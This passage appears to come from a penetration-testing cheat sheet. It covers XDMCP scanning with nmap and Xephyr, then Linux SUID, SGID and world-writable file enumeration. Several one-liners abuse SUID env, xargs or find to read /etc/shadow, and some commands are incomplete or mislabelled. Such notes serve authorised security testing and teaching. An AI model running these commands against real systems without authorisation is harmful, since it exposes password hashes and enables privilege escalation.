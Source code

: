 nmap -sU -Pn -n -A -p177

Xorg :1 -query

Xephyr :1 -screen 800x600 -query  -port 177 -from

remmina can be used for this like an RDP session

# SUID Bits

check for weak file perms…

Check for SUID files:

{% highlight PowerShell %}
find / -perm -4000 -type f -exec ls -l {} \; 2> /dev/null
{% endhighlight %}

if env is suid:

{% highlight PowerShell %}
env cat /etc/shadow
{% endhighlight %}

if xargs is suid:

{% highlight PowerShell %}
echo "" | xargs cat /etc/shadow
{% endhighlight %}

if find is suid:

{% highlight PowerShell %}
find /etc/shadow -exec cat {} \;
{% endhighlight %}

Check for SGID files:

{% highlight PowerShell %}
find / -perm -2000 -type f -exec ls -l {} \; 2> /dev/null
{% endhighlight %}

Check for World-Writable files:

{% highlight PowerShell %}
find / -perm -2 -type f -exec ls -l {} \; 2> /dev/null
{% endhighlight %}

look for messed up files

{% highlight PowerShell %}
find / -nouser -o -nogroup -print
{% endhighlight %}

# Solaris

## Solaris Patching
